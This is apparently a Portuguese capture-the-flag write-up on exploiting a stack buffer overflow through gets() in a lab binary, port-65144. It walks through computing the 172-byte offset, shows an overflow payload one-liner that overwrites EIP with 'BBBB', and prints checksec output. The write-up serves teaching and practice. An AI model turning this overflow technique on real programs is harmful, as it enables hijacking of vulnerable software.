 Agora que sabemos o básico, vamos explorá-lo. Olhando para o código da função vulnerável, podemos ver que a variável que podemos aproveitar é:

```
 80493dd: 8d 85 58 ff ff ff     lea    eax,[ebp-0xa8]
 80493e3: 50                    push   eax
 80493e4: e8 e7 fc ff ff        call   80490d0 <gets@plt>
```

Sim, o `ebp-0xa8`. O `ebp` terá um endereço, iremos subtrair o `0xa8` dele e `lea` (load effective address) para o `eax` e então enviar para a pilha onde deveriam estar os argumentos para a função `gets`.

Todas as variáveis têm seu próprio tamanho, neste caso é fácil saber qual é o tamanho desta variável apenas convertendo o `0xa8` para decimal que é 168. Ok com 168 bytes preenchemos totalmente a variável, agora temos que substituir as coisas na stack até chegar ao EIP e assumir o controle do programa. O assembly já nos disse que temos `0xa8` bytes até chegarmos ao `EBP` ok, nesta arquitetura este registrador tem 4 bytes, então vamos adicioná-lo ao nosso número e temos 172.

Vamos testar?

```bash
# aqui vamos adicionar a permissão para executar o programa
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ chmod +x port-65144

# aqui entendemos como deve ser a entrada que daremos ao programa
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ ./port-65144
Enter your buffer: asdf
not this time


# aqui enviamos nosso payload com 172 caracteres "A" e 4 "B" e vemos que a mensagem muda para "Segmentation fault (core dumped)"
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ echo $(python3 -c "print('A' * 172)")BBBB | ./port-65144
Segmentation fault (core dumped)

# e aqui podemos verificar o segfault
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ dmesg | tail -n 1
[39206.428987] port-65144[5871]: segfault at 42424242 ip 0000000042424242 sp 00000000ffba4d50 error 14 in libc-2.30.so[f7dc5000+1d000]
```

Esta última mensagem nos diz que o `IP` ou` EIP` tinha o valor `0000000042424242` e o segfault estava neste endereço. Se virmos a <a href="https://www.ascii-code.com/" target="_blank">Tabela ASCII</a>, podemos confirmar que o número `0x42` (hexadecimal) é o mesmo que "B", sabendo disso, e lembrando que enviamos 4 "B" se o IP é `0000000042424242` 4 entradas de 42 .... hmm .... conseguimos! Podemos sobrescrever o `EIP`.

Agora que temos isso, vamos ver o que podemos fazer com este binário:

```bash
reisraff@3dbbde46a935:~/workdir/challs/port-65144$ checksec port-65144
[*] '/home/reisraff/workdir/challs/port-65144/port-65144'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
reisraff@3dbbde46a935:~/workdir/challs/port-65144$
```

